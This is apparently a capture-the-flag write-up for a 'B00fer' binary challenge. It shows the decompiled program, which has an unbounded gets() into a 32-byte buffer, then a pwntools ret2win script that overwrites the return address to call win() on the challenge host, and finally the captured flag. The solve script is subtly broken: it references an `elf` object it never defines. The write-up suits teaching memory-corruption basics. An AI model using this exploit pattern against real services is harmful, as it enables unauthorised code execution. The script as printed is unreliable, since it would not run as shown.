 # B00fer

## Description
> The Consortium sent us this file and connection info. Looks like they are taunting us.

> They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.

## Attachment
### [B00fer](./B00fer)

## Solve
I decompiled the program using Ghidra and here are my results:

```c
void win() {
  char flag [40];
  FILE *fptr = fopen("flag.txt", "r");
  fread(flag, 1, 32, fptr);
  puts(flag);
  puts("Good!\n");
  exit(1);
}

int main() {
  char str [32];
  setvbuf(stdout, 0, 2, 0 );
  puts("Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n");
  gets(str);
  return 0;
}
```

This is a very basic `ret2win` challenge.

Here's my solve script:
```py
import pwn

if pwn.args.REMOTE:
    io = pwn.remote("b00fer.niccgetsspooky.xyz", 9001)
else:
    io = pwn.process("./B00fer")

offset = 40;
payload = b'A' * offset + elf.symbols['win'].to_bytes(8, 'little')
io.sendline(payload)
print(io.recvall())
```

This printed the flag:

`NICC{Sp00ked_the_fl4g_0ut_of_m3}`
